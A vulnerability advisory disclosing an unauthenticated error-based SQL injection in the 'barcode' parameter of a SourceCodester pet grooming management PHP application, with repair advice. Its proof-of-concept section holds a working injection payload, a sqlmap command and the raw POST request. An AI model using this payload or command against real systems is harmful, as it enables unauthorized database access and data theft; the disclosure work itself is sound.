


# Pet grooming management fetch_product_details.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- lalalalalalala555
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'fetch_product_details.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "barcode" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "fetch_product_details.php" file. This vulnerability stems from insufficient user input validation of the 'barcode' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based

## Vulnerability location:

- 'barcode' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: barcode=1'||(SELECT 0x61635654 WHERE 5379=5379 AND (SELECT 8570 FROM(SELECT COUNT(*),CONCAT(0x71766b6271,(SELECT (ELT(8570=8570,1))),0x716a6a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
    Vector: AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/fetch_product_details.php HTTP/1.1
Host: 192.168.31.222:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserName=test1; PassWord=16d7a4fca7442dda3ad93c9a726597e4; Bus_Booking_System=bq1kveujc3osm8re7oiikt4hhj; columns-customers_view={%22customers-fullname%22:true%2C%22customers-phone%22:true%2C%22customers-id_number%22:true}; PHPSESSID=p1oiu687ec8r1n6qnj58qo4850
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

barcode=1*
```

# Attack results



# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.